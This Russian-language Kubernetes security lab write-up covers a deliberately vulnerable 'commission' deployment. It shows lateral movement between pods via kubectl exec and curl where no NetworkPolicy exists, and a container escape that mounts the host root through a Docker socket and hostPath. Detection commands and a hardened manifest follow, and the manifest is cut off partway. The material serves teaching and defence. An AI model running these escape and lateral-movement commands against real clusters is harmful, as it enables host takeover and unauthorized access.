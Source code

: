 - Lateral movement к customer:
```sh
kubectl exec -n finance -it $POD -- sh -c "curl -s http://customer-svc.finance.svc.cluster.local"
```
Получаем доступ к другому поду за счет отсутсвия NetworkPolicy

- Побег через Docker-socket и hostPath(сначала убедитесь, что в контейнере установился Docker):
```sh
kubectl exec -n finance -it $POD -- sh

docker run --rm -v /:/host alpine sh -c 'echo hacked>/host/tmp/hacked.txt'
```


## Обнаружение
- Проверить privileged:
```sh
kubectl get deployment commission -n finance -o jsonpath='{.spec.template.spec.containers[0].securityContext.privileged}'
```

- Проверить hostPath:
```sh
kubectl get deployment commission -n finance -o jsonpath='{.spec.template.spec.volumes[?(@.name=="hostroot")].hostPath.path}'
```

- Проверить права SA:
```sh
kubectl auth can-i '*' '*' --as=system:serviceaccount:finance:default
```

- Проверить NetworkPolicy:
```sh
kubectl get networkpolicy -n finance
```

## Исправления
- Убираем из манифеста commission-deployment-vuln.yaml поля privileged и hostPath, а вместо них просто запускаем контейнер без привилегий.:
Новый `commission-deployment-fixed` файл ->
```yml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: commission
  namespace: finance
spec:
  replicas: 1
  selector:
    matchLabels:
      app: commission
  template:
    metadata:
      labels:
        app: commission
    spec:
      serviceAccountName: commission-sa
      containers:
      - name: commission
        image: ubuntu:20.04
        command:
          - sh
          - -c
          - |
            apt-get update && apt-get install -y curl jq && sleep infinity
        securityContext:
```